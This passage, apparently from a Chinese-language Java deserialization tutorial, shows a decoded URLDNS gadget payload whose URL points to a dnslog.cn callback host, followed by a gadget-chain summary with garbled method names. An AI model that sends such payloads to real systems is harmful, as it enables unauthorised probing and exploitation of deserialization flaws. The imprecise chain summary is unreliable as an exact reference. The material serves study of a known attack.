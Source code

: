 ```
                  className1
                    TC_REFERENCE - 0x71
                      Handle - 8257539 - 0x00 7e 00 03
              classAnnotations
                TC_ENDBLOCKDATA - 0x78
              superClassDesc
                TC_NULL - 0x70
            newHandle 0x00 7e 00 04
            classdata
              java.net.URL
                values
                  hashCode
                    (int)2133919961 - 0x7f 31 08 d9
                  port
                    (int)-1 - 0xff ff ff ff
                  authority
                    (object)
                      TC_STRING - 0x74
                        newHandle 0x00 7e 00 05
                        Length - 16 - 0x00 10
                        Value - 0ga8y4.dnslog.cn - 0x3067613879342e646e736c6f672e636e
                  file
                    (object)
                      TC_STRING - 0x74
                        newHandle 0x00 7e 00 06
                        Length - 0 - 0x00 00
                        Value -  - 0x
                  host
                    (object)
                      TC_REFERENCE - 0x71
                        Handle - 8257541 - 0x00 7e 00 05
                    TC_NULL - 0x70
            newHandle 0x00 7e 00 0a
            classdata
              java.lang.Number
                values
              java.lang.Integer
                values
                  value
                    (int)1 - 0x00 00 00 01
          TC_ENDBLOCKDATA - 0x78
```

**总结URLDNS链：**

```
HashMap.readObject()-> HashMap.putVul->HashMap.hash()->URLStreamHandler.hashcode().getHostAddress->URLStreamHandler().hashCode().getAddressHost->getByName()
```

#### CCI链
